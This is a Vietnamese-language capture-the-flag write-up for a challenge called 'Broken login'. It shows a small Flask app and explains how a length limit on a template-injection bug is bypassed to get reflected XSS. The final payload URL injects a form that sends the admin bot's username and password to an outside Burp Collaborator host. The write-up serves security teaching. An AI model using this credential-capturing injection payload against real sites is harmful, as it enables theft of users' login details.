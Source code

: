# 1. Broken login
Challenge cung cấp source code của file `app.py` và source code của admin bot.

File `app.py`:
```
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """...Login form..."""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

Khảo sát website, ta thấy các chức năng:

+) Login form cho phép nhập username và password, sẽ hiển thị "Wrong username or password" cho dù thông tin đăng nhập có là gì chăng nữa.

+) Admin bot sẽ visit URL với domain hợp lệ, điền thông tin username và password vào các ô input rồi submit form. Trong đó, password chính là flag.

Như vậy, ta cần đọc request login do admin bot submit. Đọc file `app.py`, ta thấy tham số `message` được truyền vào template. Thử `/?message={{7*7}}` => có lỗ hổng SSTI, tuy nhiên giới hạn độ dài là 25 nên cần tìm cách bypass.

Để bypass length, ta dùng `/?message={{request.args.a|safe}}&a=abc`. Khi `message` được load vào template, nó sẽ đọc tham số `a` trong query string và thay thế bằng giá trị của `a` khiến chuỗi`abc` được hiển thị. Ta thấy website chỉ escape biến `message` => XSS với parameter `a` => có thể tạo payload khiến Admin Bot execute script, gửi request đến BurpCollaborator.

Payload cuối cùng như sau: `https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform+action%3D%22https%3A%2F%2Fuywcqez17hkq9srcsampsedao1urig.oastify.com%2Ftest%22+method%3D%22POST%22%3E%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%3Cinput+type%3D%22text%22+name%3D%22password%22%3E%3Cinput+type%3D%22submit%22+value%3D%22SUBMIT%22%3E%3C%2Fform%3E`
